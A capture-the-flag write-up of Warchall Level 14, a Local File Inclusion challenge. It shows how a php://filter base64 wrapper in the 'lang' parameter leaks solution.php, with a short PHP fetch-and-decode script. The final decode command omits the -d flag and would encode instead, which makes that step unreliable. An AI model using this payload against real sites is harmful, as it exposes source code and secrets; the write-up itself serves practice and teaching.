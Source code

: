 # Level 14 :
---
# _Warchall : Live LFI_
---
---
In this challenge of the LFI (Local File Inclusion), we are redirected to this link of LFI challenge web site : https://lfi.warchall.net/ .

First thing to do is to check the vulnerability of that web page. We remarque that if we click on the flag we see in the web site, we see that the propriety of the ling changes such as :
-   ```https://lfi.warchall.net/index.php?lang=en```
-   ```https://lfi.warchall.net/index.php?lang=de```

So I tryed to see what else can I put there so I tryed lot of things like    ```https://lfi.warchall.net/index.php?lang=solution``` , ```https://lfi.warchall.net/index.php?lang=solution.php```, etc
But something happen when I tryed this one : ```https://lfi.warchall.net/index.php?lang=solution.php```

There is a message there that says :``` "_teh falg si naer!
the flag is near!_ and "_fatal error: Uncaught TypeError: Cannot access offset of type string on string in /home/level/14_live_fi/www/index.php:12 Stack trace: #0 {main} thrown in /home/level/14_live_fi/www/index.php on line 12
Fatal error: Uncaught GWF_Exception: thrown in /opt/php/gwf3/core/inc/util/GWF_Log.php on line 249"_```

SO I did some research on how we can find the solution especially on Local File Inclusion and document myself on this website : https://www.php.net/manual/fr/filters.convert.php. Then got an idea how to solve it.

The purpose is to use a php wrapper on the link of the challenge to get the solution
First thing first is to write the php codethat you can put in your ```~```or you can also use ```/tmp```. In my case I used ```/tmp``` and redirect the solution in a file named ```solution_decoded.php``` :

```sh
<?php
$targetURL = 'http://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php';
$base64Content = file_get_contents($targetURL);
$decodedContent = base64_decode($base64Content);
file_put_contents('/tmp/solution_decoded.php', $decodedContent);
?>
```
This code consists on getting the url of the challenge which is ```https://lfi.warchall.net/index.php?lang=```use php wrapper, converting it on base64. Get the source code and decode it through the php code and look at the file ```solution_decode.php```

Now after creating that file, for example we name it ```lfi.php```, we should lunch it (execute it);
```sh
yourUsername@warchall:~$ php lfi.php
```
Then look at your ```solution_decoded.php```:
```sh
yourUsername@warchall:~$ cat /tmp/solution_decoded.php
```

There you go! -----------


Or you can also immediatelly use the url to get the solution without writing a php code on warchall box just using this url below :
```sh
view-source:https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php
```
and coping the first text you see on the source code of this page and write it on a file named for example ```level14_solution.txt``` then decode :
```sh
yourUsername@warchall:~$ base64 level14_solution.txt
```
There you go!


